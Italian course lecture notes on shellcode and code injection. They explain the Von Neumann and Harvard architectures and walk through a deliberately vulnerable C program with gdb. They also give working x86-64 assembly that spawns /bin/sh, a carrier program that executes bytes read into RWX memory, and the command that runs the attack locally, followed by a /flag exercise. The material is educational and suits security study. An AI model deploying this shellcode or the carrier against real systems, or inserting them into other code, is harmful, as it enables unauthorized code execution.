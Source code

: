 ```yaml
---
id: '9'
lezione: "20231026"
title: "Shellcode"
author: "Sam. K."
keywords: ["Shellcode", "Code Injection", "Codice Vulnerabile", "Codice Vulnerabile", "Memory layout 64bit", "Shellcode Carrier", "Shellcode Attacco"]
---
```

<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

## Materiale
* [Writing 64-Bit Shellcode](https://null-byte.wonderhowto.com/how-to/writing-64-bit-shellcode-part-1-beginner-assembly-0161593/)

# Shellcode
Shellcode è un pezzo di codice che ha caratteristiche particolari, tra cui il dover essere scritto in linguaggio macchina che viene usato per sfruttare le vulnerabilità all'interno di un codice attraverso attacco di tipo **injection**. Lo shell code, tipicamente viene iniettato all'interno di un processo in esecuzione e magicamente questo lo esegue.

Lo shell code contiene il codice in linguaggio macchina le azioni che l'attaccante vuole eseguire sulla macchina.

## Code Injection
Attacco di base è di tipo **Code Injection** (iniettare codice), prima di mandarlo in esecuzione, il codice viene messo all'interno della memoria. Il `code injection` è possibile su questi calcolatori grazie al fatto che essi si basano sull'architettura di **John Von Neumann**. **Il principio fondamentale di questa architettura è che i dati e il codice condividono lo stesso spazio di memoria**, infatti iniezione di codice avviene **sfruttando istruzioni di I/O**, quindi dati che vengono messi in memoria occupano lo stesso spazio di memoria. 

![Von Nuemann](assets/images/Von_Neumann_Architecture.png)

> **L'architettura di Harvard** invece data memory e program memory occupano spazi di memoria completamente diversi (alcune architetture ARM la implementa). Quindi, su questa architettura non è possibile fare attacchi di tipo Code Injection.

![Harvard](assets/images/Architettura_harvard.svg.png)

### Codice Vulnerabile
Per eseguire questo attacco boisogna prima individuare un pezzo di codice vulnerabile ovvero un **security bug**, è una vulnerabilità che ci permette di **bypassare/scavalcare meccanismo di protezione** di un sistema, quindi, guadagnare un accesso non autorizzato al sistema.

```c
void bye1(){ puts("Goodbye!\n"); }

void bye2(){ puts("Farewell!\n"); }

void hello(char *name, void (*bye_func)()){
    printf("Hello %s!\n", name);
    bye_func();
}

int main(int argc, char **argv){
    char name[1024];
    gets(name);
    srand(time(0));
    if(rand() % 2) hello(bye1, name);
    else hello(name, bye2);
}
```
compila con:
```sh
gcc -z execstack -g -o myFirstInjection myFirstIngection.c
```

>Questo codice a volte dà segmentation fault! (la parte di else).

### Layout di memoria di un processo linux in 64bit

![Memory layout](assets/images/address_space.png)

* Da 2<sup>48</sup> in su è la zona di memoria riservata al Kernel.
* Il processo ha a disposizione gli indirizzi da 0x400000 fino a 2<sup>48</sup> -1.
  
  * il codice .data,  etc...

Eseguiamo il programma in gdb finché non crasha con signal Segmentation Fault `SIGSEGV` oppure IllegalInstruction.

![GDB seg fault](assets/images/gdb_seg.png)
~~~sh
# trovre regione di memoria dove il programma ha fallito
x/s $rip # register instruction pointer / program counter
print $rip # address: 0x7fffffffda80

info proc map # mostra la memoria attuale
~~~
In questo momento il `program counter $rip` contiene l'indirizzo (di stack) dell'istruzione che sta provando ad eseguire (`0x7fffffffda80`). 

Processore stava eseguendo l'istruzione $rip quando è avvenuto il fault.

Usando GDB andiamo a vedere cosa contiene quell'indirizzo di memoria: alcuni hanno avuto `(bad)` significa un istruzione sconosciuto ed alcuni hanno trovato un istruzione di `add`.

`x/s $rip` gdb dice qualè il contenuto di quell'indirizzo di memoria. 

Il program counter ad un certo punto è stato posizionato sulla stringa data, quando si chiama hello con bye2 con argomenti invertiti, il programma cerca di eseguire input dell'utente come fosse una funzione (perché si aspetta una funzione/un puntatore a funzione).

La vulnerabilità è che il programmatore ha scambiato l'ordine dei parametri della funzione.

Il fault è stato creato perché il cpu cerca di interpretare il contenuto di quella locazione memoria come un istruzione, che potrebbe essere un istruzione riconosciuto cosi come uno sconosciuto oppure un istruzione che cerca di accedere ad un indirizzo di memoria assurdo (crea un segmentation fault).

![code injection es2](assets/images/code%20injection%20es2.png)

in questo caso l'input `546tragybfzdcx` è stato interpretato come un istruzione di tipo `xor`.

Un codice universale che permette di fare tutto sulla macchina è eseguire una shell da quel programma, da questo viene il nome `ShellCode`. 

Code injection è la vulnerabilità utilizzato da Morris nel 1988 con Internet Worm. 

### Shell Code per eseguire una shell

```s
.intel_syntax noprefix
.global _start 
.section .text
_start:
mov rax, 59
lea rdi, [rip + binsh]
mov rsi, 0
mov rdx, 0
syscall
binsh:
.string "/bin/sh"
```
(non mettere .section .data)

Verificare che il codice assembly compilato sia come segue:

```s
mov rax, 0x3b
lea rdi, [rip+0x1c]
mov rsi,0x0
mov rdx,0x0
syscall
00... <binsh>:
(bad)
(bad)
.byte 0x69
outs dx,BYTE PTR ds:[rsi]
(bad)
jae 4
```
`gcc -nostdlib -static -o shellcode shellcode.s`

Si estrae la sezione .text dal file ELF con il comando `objcopy --dump-section .text=RawFile executable`.

### Shell Carrier

prima di testarlo bisogna iniettarlo per questo si usa un programma che si chiama `Carrier` perché non può essere eseguito da solo.

```c
#include<sys/mman.h>
#include<unistd.h>
int main(void){
    void *page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0); // riserva 1000 byte in cui disabilita tutte le protezioni
    read(0, page, 0x1000); //legge da stdin fino a 1000 byte in questa zona (o al primo EOF)
    ((void(*)())page)(); //manda in esecuzione 
    return 0;
}
```
questo programma:
* `mmap()`: riserva una zona di memoria di `1000 byte` che disabilità tutte le protezioni.
* `read()`: legge da stdin fino a `1000 byte` (fino al primo EOF)
* manda in esecuzione il programma che stato scritto in variabile `page` (zona memoria riservato con `mmap()`)

### Attacco

    cat rawfile - | ./carrier

* rawfile è il file ottenuto con `objcopy --dump-section .text=rawfile shcode`.

    `cat rawfile | ./carrier` # non funziona perché la pipe chiude lo stdin e quando la shell (sh) inizia trova stdin chiuso quindi termina, bisogna usare `cat rawfile - | ./carrier`.

## Esercizio
Creare un file `/flag` nella root, scrivere del codice che accede al suo contenuto e lo stampa.

Scrivere un programma in C estrarre da file compilato assembly il shellcode.

system call da usare: (open, sendfile, exit).

La shell appare all'utente, non all'attaccante, bisogna poi redirigere la shell. (remote shell). Il codice è un pochino piu complicato.